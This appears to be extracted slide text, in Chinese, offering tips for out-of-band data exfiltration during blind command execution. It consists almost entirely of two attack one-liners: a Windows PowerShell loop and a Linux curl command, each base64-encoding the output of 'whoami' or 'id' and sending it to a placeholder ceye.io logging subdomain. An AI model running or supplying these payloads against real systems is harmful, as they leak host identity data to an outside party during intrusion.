

利用编码(base64)开车不会翻！
Windows(Powershell)：
for /F %x in ('whoami') do powershell $a=[System.Convert]::ToBase64String([System.Text.Encoding]::UTF8.GetBytes('%x'));$b=New-Object System.Net.WebClient;$b.DownloadString(‘http://xxx.ceye.io/'+$a);
Linux:
curl http://xxxx.ceye.io/$(id|base64)